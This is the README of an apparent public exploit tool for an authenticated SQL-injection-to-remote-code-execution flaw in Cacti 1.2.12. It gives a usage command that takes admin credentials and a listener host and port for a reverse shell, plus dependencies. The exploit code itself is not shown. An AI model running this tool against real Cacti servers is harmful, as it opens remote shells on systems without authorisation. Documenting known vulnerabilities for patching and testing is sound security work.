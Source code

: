 # Cacti v1.2.12 Authenticated Remote Code Execution     
# (SQLI --> RCE)

<h4> Discovery : https://github.com/Cacti/cacti/issues/3622 </h4>


<h3> Usage : </h3>
<br>
<h3>python3 cacti_rce.py cacti_rce.py -H http://cactiurl -U `ADMIN USERNAME` -P `ADMIN PASSWORD` -l `LHOST` -p `LPORT` </h3>
  

usage: cacti_rce.py [-h] [-H H] [-U U] [-P P] [-l L] [-p P]

Cacti v1.2.12 Authenticated Remote Code Execution

 <p> optional arguments: </p>
 <p> -h, --help  show this help message and exit  </p>
 <p> -H H        Cacti URL Eg:http://cactiurl     </p>
 <p> -U U        Cacti Admin Username             </p>
 <p> -P P        Cacti Admin Password             </p>
 <p> -l L        rev shell lhost                  </p>
 <p> -p P        rev shell lport                  </p>


# Dependencies

<h4> pip3 install argparse </h4>
<h4> pip3 install bs4 </h4>
<h4> pip3 install requests </h4>

